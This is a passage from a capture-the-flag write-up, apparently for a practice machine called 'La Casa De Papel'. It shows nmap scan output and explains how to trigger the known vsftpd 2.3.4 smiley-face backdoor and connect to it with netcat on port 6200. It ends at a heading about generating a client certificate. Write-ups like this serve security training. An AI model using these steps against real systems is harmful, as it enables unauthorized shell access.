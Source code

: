 ```
# nmap -n -v -Pn -p21,22,80,443 -A --reason -oN nmap.txt 10.10.10.131
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open   ssh      syn-ack ttl 63 OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:                                                    
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)    
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)   
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp   open  http    syn-ack ttl 63 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: La Casa De Papel
443/tcp  open  https?  syn-ack ttl 63
| http-methods:
|_  Supported Methods: POST OPTIONS
```

What do we have here? vsftpd 2.3.4 has a famous backdoor in `6200/tcp`.

### VSFTPD v2.3.4 Backdoor Command Execution

It's pretty trivial to initiate the backdoor. Any attempts to log in with a username ending with a smiley face `:)` will trigger the backdoor to open. Once that's done, simply `nc 10.10.10.131 6200`.

_Open the backdoor_


{% include image.html image_alt="0719d368.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/0719d368.png" %}


_Connect to the backdoor_


{% include image.html image_alt="f4fef185.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/f4fef185.png" %}


We'll leave the Psy Shell for a while and take a look at the `http` and `https` services.

_`80/tcp`_


{% include image.html image_alt="a11bf985.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/a11bf985.png" %}


_`443/tcp`_


{% include image.html image_alt="42f50941.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/42f50941.png" %}


Looks like I need to generate some kind of client certificate in order to access the `https` service.

### Generating a Client Certificate.
